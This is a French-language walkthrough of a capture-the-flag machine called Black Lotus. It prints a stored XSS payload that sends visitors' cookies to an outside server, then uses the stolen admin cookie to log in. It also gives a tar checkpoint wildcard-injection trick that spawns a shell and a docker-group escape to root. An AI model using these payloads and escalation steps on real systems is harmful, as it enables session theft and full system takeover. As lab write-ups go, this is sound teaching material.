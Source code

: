 # Black Lotus CTF Walkthrough

## Sommaire

1. [XSS & Cookie Theft](#1-xss--cookie-theft)
2. [Accès au Message de l’Admin](#2-accès-au-message-de-ladmin)
3. [Connexion SSH](#3-connexion-ssh)
4. [Escalade de privilèges via tar avec hacker](#4-escalade-de-privilèges-via-tar-avec-hacker)
5. [Exploitation des vulnérabilités de tar](#5-exploitation-des-vulnérabilités-de-tar)
6. [Docker Escape](#6-docker-escape)

## 1. XSS & Cookie Theft

On commence par créer un compte utilisateur et se connecter au site.

Ensuite, on crée une nouvelle liste avec le payload XSS suivant :

```html
<script>document.location='http://10.8.92.59:5555/steal.php?c='+document.cookie</script>
```

Ce script envoie les cookies de toute personne visitant la page vers notre serveur.

Une fois notre propre cookie reçu, on **signale la page** pour que l'administrateur la visite (simulation d'une vulnérabilité **Stored XSS**). Lorsque l’admin ouvre la page, son cookie est également envoyé à notre serveur.

On récupère alors le **cookie admin** et on le remplace dans notre navigateur avec une extension ou via les outils de développement (par exemple avec `document.cookie` dans la console).

## 2. Accès au Message de l’Admin

Une fois authentifié comme admin, un message s’affiche :

> From admin  
> Hi there you h4ck3rz, so you want the Black Lotus? Try me then. SSH to the machine with those creds: `guest:Bl4Ck_L07u5_N3rd`

## 3. Connexion SSH

On se connecte à la machine distante via SSH :

```bash
ssh guest@magic-town
# Mot de passe : Bl4Ck_L07u5_N3rd
```

🎉 **1er Flag obtenu**

## 4. Escalade de privilèges via Tar depuis hacker

On découvre qu’on peut utiliser un binaire SUID `hacker` pour zipper un fichier :

```bash
# Depuis le compte guest
sudo -u hacker tar hacker.txt
```

Cela crée un fichier zip avec les droits de l'utilisateur `hacker`.

Ensuite, on dézippe le fichier pour obtenir la flag avec les permimission guest.

🎉 **2ème Flag obtenu**

## 5. Exploitation des vulnérabilités de tar

Toujours avec `tar` on peut executer n’importe quelle commande depuis `hacker` donc on cree les fichiers:

```bash
touch '--checkpoint-action=exec=sh'
touch  '--checkpoint=1' 
touch temp.txt
```

Ce sont des fichiers piégés pour forcer une exécution de commande lors d'une archive avec `tar` :

```bash
sudo -u hacker tar 
```

Quand on utilise `tar` ces fichier nous ouvre un shell en tant que `hacker`.

## 6. Docker Escape

On remarque que `hacker` est dans le groupe docker donc on exécute un conteneur Docker :

```bash
docker run -v /:/mnt -it alpine
```

Avec ce volume monté, on a accès à tout le système depuis le conteneur.

Il suffit de chroot dans le système monté pour devenir root :

```bash
chroot /mnt
```

Et voilà, on est **root sur la machine** !

---

🎉 **3ème Flag obtenu** depuis le système de fichiers root !

